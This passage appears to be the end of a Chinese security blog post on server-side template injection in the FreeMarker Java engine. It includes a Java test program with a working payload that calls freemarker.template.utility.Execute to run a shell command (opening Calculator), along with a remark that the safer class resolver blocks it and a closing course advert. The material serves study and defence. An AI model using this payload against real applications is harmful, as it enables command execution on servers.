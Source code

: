 ```
package freemarker;import freemarker.cache.StringTemplateLoader;import freemarker.core.TemplateClassResolver;import freemarker.template.Configuration;import freemarker.template.Template;import java.io.IOException;import java.io.OutputStreamWriter;import java.io.StringWriter;import java.util.HashMap;publicclassfreemarker_ssti{publicstaticvoidmain(String[] args)throwsException{//设置模板HashMap<String,String> map =newHashMap<String,String>();Stringpoc="<#assign aaa=\"freemarker.template.utility.Execute\"?new()> ${ aaa(\"open -a Calculator.app\") }";System.out.println(poc);StringTemplateLoaderstringLoader=newStringTemplateLoader();Configurationcfg=newConfiguration();        stringLoader.putTemplate("name",poc);        cfg.setTemplateLoader(stringLoader);//cfg.setNewBuiltinClassResolver(TemplateClassResolver.SAFER_RESOLVER);//处理解析模板TemplateTemplate_name= cfg.getTemplate("name");StringWriterstringWriter=newStringWriter();Template_name.process(Template_name,stringWriter);}}
```  
  
防御成功  
  
![](https://mmbiz.qpic.cn/mmbiz_png/3RhuVysG9LcBwMMmTLOl045npgLicDzs2KY6QyKBibLccu48fbs3l5mh2fe3Euo3nPaicxSTrX55NlPcj4Zk1Qc5A/640?wx_fmt=png "null")  
## 0x03 小结  
  
比较其他两个模板引擎来说，FreeMarker 的 SSTI 更为严格一些，它的防护也做的相当有力，这个给自己挖个小坑吧，后续去看一看 FreeMarker 的代码当中是否存在强而有力的 bypass payload 。  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/7QRTvkK2qC6iavic0tIJIoZCwKvUYnFFiaibgSm6mrFp1ZjAg4ITRicicuLN88YodIuqtF4DcUs9sruBa0bFLtX59lQQ/640?wx_fmt=gif&wxfrom=5&wx_lazy=1 "")  
  
学习  
网安实战技能课程  
，戳  
“阅读原文“  
  
